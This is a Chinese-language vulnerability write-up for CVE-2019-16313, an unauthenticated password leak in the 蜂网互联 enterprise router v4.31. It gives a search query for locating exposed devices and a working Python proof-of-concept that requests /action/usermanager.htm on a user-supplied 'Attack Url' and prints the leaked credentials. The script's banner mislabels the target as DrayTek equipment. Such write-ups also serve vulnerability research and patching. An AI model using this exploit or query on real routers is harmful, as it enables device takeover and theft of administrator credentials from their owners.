

# 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313

## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

```
蜂网互联企业级路由器v4.31
```

## 网络测绘

```
app="蜂网互联-互联企业级路由器"
```

## 漏洞复现


登录页面登录后可以看到，账号密码存在接口访问


而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码


- 不存在漏洞时  state值为 3

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


